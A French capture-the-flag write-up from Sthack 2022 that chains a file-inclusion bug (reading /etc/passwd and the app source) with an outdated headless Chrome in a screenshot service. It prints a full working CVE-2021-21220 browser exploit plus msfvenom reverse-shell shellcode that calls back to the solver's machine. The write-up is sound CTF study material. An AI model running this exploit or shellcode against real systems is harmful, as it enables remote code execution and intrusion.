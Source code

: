 ```yaml
---
layout: post
title: Headless Updateless Brainless
category: Sthack-2022
---
```



# Headless Updateless Brainless

Lors de l'accès au challenge, une page d'accueil est présentée.

![img_1.png](/assets/img/sthack2022/updateless/img_1.png)

Nous constatons que le fichier index.html est indiqué en pramètre GET de l'URL et soupçonnons donc la présente d'une faille de type LFI.
Nous tentons d'inclure le fichier /etc/passwd.

![img_2.png](/assets/img/sthack2022/updateless/img_2.png)

Nous constatons que l'inclusion de fichier est possible.
Nous récupérons ensuite la commande exécutée pour lancer le serveur Web grâce à fichier `/proc/self/cmdline`.

![img_3.png](/assets/img/sthack2022/updateless/img_3.png)

Nous constatons que l'application est une application NodeJS et que le code source est présent dans un fichier chall.js.
Nous obtenons ensuite le code source de l'application.

![img_4.png](/assets/img/sthack2022/updateless/img_4.png)

```js
#!/usr/bin/env node

const http = require('http');
const fs = require('fs');
const puppeteer = require("/usr/src/app/node_modules/puppeteer");
const path = require('path');

async function takeScreenshot(url) {
    const browser = await puppeteer.launch({ args: ['--no-sandbox', '--disable-setuid-sandbox'], }); // Docker all the way!
    const page = await browser.newPage();
    await page.goto(url);
    url_path = url.replace("/", "_");
    await page.screenshot({ path: "screens/" + url_path });
    await browser.close();
}

/** handle GET request */
async function coolHandler(req, res, reqUrl) {
    console.log("reqUrl", reqUrl);
    url = reqUrl.searchParams.get("url");
    url = (url || "").trim().toLowerCase();
    if (url.startsWith("http")) {
        filepath = await takeScreenshot(url);
        res.writeHead(200);
        res.write('Work done: ', filepath);
        res.end();
        return;
    } else {
        res.writeHead(500);
        res.write('Me no Worky :<');
        res.end();
        return;
    }
}

/** handle GET request */
async function displayHandler(req, res, reqUrl) {

    console.log("reqUrl", reqUrl);
    file_path = (reqUrl.searchParams.get("file") || "").trim();
    if (file_path.length == 0 || file_path.toLowerCase().includes("flag")) {
        res.writeHead(302, { 'Location': '/?file=index.html' });
        res.end();
        return;
    }
    try {
        const data = fs.readFileSync(file_path, 'utf8');
        res.writeHead(200);
        res.write(data);
        res.end();
        return;
    } catch (err) {
        console.log(err);
        res.writeHead(404);
        res.write("File doesn't exist or can't be read :(");
        res.end();
        return;
    }
}

let base_url = "http://0.0.0.0/";

http.createServer((req, res) => {
    // create an object for all redirection options
    const router = {
        'GET/coolish-unguessable-feature': coolHandler,
        'default': displayHandler
    };
    // parse the url by using WHATWG URL API
    let reqUrl = new URL(req.url, base_url);
    // find the related function by searching "method + pathname" and run it
    let redirectedFunc = router[req.method + reqUrl.pathname] || router['default'];
    redirectedFunc(req, res, reqUrl);
}).listen(80, () => {
    console.log('Server is running at ' + base_url);
});

```

Nous constatons que la route "coolish-unguessable-feature" accepte un paramètre GET appelé "url" et prend une capture d'écran de la page indiquée en paramètre.
Nous notons que la sandbox de Puppeteer est désactivée.

Nous tentons donc d'indiquer une URL nous appartenant afin d'observer le User-Agent faisant la requête.
Nous recevons une requête.

![img_5.png](/assets/img/sthack2022/updateless/img_5.png)

Celle-ci provient du navigateur Chrome, dans son mode headless et dans la version 89.0.4389.72, qui est obsolète.
Nous cherchons donc si cette version est exposée à des vulnérabilités connues.

![img_6.png](/assets/img/sthack2022/updateless/img_6.png)

Nous constatons que cette version est exposée à différentes vulnérabilités connues.
La vulnérabilité qui nous intéresse est l'exécution arbitraire de code.
Celle-ci correspond à la CVE-2021-21220.

Nos recherches de POC nous indiquent qu'un exploit est disponible sur metasploit. Ne disposant pas d'un serveur accessible depuis Internet ayant Metasploit, nous récupérons le code source de l'exploit.

```js
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11])
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var wasm_main_func = wasm_instance.exports.main;

var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

var shellcode = new Uint8Array([#{shellcode}]);
var shellbuf = new ArrayBuffer(shellcode.length);
var dataview = new DataView(shellbuf);

function ftoi(val) {
	f64_buf[0] = val;
	return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n);
}

function itof(val) {
	u64_buf[0] = Number(val & 0xffffffffn);
	u64_buf[1] = Number(val >> 32n);
	return f64_buf[0];
}

const _arr = new Uint32Array([2**31]);

function foo() {
	var x = 1;
	x = (_arr[0] ^ 0) + 1;

	x = Math.abs(x);
	x -= 0x7FFFFFFF;
	x = Math.max(x, 0);

	x -= 1;
	if(x==-1) x = 0;

	var arr = new Array(x);
	arr.shift();
	var cor = [1.1, 1.2, 1.3];

	return [arr, cor];
}

for(var i=0;i<0x3000;++i)
	foo();

var x = foo();
var arr = x[0];
var cor = x[1];

const idx = 6;
arr[idx+10] = 0x4242;

if (cor.length == 3) location.reload();

function addrof(k) {
	arr[idx+1] = k;
	return ftoi(cor[0]) & 0xffffffffn;
}

function fakeobj(k) {
	cor[0] = itof(k);
	return arr[idx+1];
}

var arr2 = [cor[3], 1.2, 2.3, 3.4];
var fake = fakeobj(addrof(arr2) + 0x20n);

function arbread(addr) {
	if (addr % 2n == 0) {
		addr += 1n;
	}
	arr2[1] = itof((2n << 32n) + addr - 8n);
	return (fake[0]);
}

function arbwrite(addr, val) {
	if (addr % 2n == 0) {
		addr += 1n;
	}
	arr2[1] = itof((2n << 32n) + addr - 8n);
	fake[0] = itof(BigInt(val));
}

function copy_shellcode(addr, shellcode) {
	let buf_addr = addrof(shellbuf);
	let backing_store_addr = buf_addr + 0x14n;
	arbwrite(backing_store_addr, addr);

	for (let i = 0; i < shellcode.length; i++) {
		dataview.setUint8(i, shellcode[i]);
	}
}

var rwx_page_addr = ftoi(arbread(addrof(wasm_instance) + 0x68n));
copy_shellcode(rwx_page_addr, shellcode);
wasm_main_func();
```

Il nous faut changer le shellcode présent au début de l'exploit par un shellcode permettant d'exécuter un reverse shell vers notre machine.
Nous utilisons pour cela msfvenom.

![img_7.png](/assets/img/sthack2022/updateless/img_7.png)

```js
var shellcode = new Uint8Array([0x6a,0x29,0x58,0x99,0x6a,0x02,0x5f,0x6a,0x01,0x5e,0x0f,0x05,0x48,0x97,0x48,0xb9,0x02,0x00,0x23,0x29,0xc0,0xa8,0x01,0x7c,0x51,0x48,0x89,0xe6,0x6a,0x10,0x5a,0x6a,0x2a,0x58,0x0f,0x05,0x6a,0x03,0x5e,0x48,0xff,0xce,0x6a,0x21,0x58,0x0f,0x05,0x75,0xf6,0x6a,0x3b,0x58,0x99,0x48,0xbb,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68,0x00,0x53,0x48,0x89,0xe7,0x52,0x57,0x48,0x89,0xe6,0x0f,0x05]);
```

Après transformation et remplacement du shellcode présent dans l'exploit, nous incluons ce code Javascript dans une page HTML que nous hébergeons.
Nous indiquons ensuite l'URL de cette page au service de screenshot et lançons un netcat en écoute sur le port 9001.

Le serveur Web reçoit une requête.

![img_8.png](/assets/img/sthack2022/updateless/img_8.png)

Puis nous obtenons un shell.

![img_9.png](/assets/img/sthack2022/updateless/img_9.png)



